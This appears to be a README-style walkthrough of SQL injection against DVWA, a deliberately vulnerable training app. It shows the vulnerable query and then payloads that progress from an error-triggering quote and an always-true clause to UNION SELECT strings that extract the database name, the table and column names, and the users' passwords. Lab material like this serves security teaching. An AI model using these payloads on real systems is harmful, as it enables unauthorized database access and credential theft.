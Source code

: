
# SQL Injection Demo


## Source Code Location
```
docker exec -it dvwa bash 
# cd /var/www/html
# cd /var/www/html/vulnerabilities/sqli
```

## Vunerable SQL Code

* Source Files: /var/www/html/vulnerabilities/sqli/source/low.php
* Note: $id comes from User Input

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

## On Web Form, Try

* User ID = Re11k'
* Should Get Error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Re11k''' at line 1
```

Note: 
```
SELECT first_name, last_name FROM users WHERE user_id = ''Re11k''
```

## Now Try

* User ID = Re11k' or 'a' = 'a
* Should See Data Exposed

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'Re11k' or 'a' = 'a'
```


## Get Database Name

* User ID = Re11k' and 1=1 union select null, database() #

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'RRe11k' and 1=1 union select null, database() #'
```


## Get Table Names

* User ID = Re11k' and 1=1 union select null, table_name from information_schema.tables #


## Get Columns from Users Table

* User ID = Re11k' and 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #


## Get Passwords

* User ID = Re11k' and 1=1 union select null, concat(user,0x0a,password) from users #









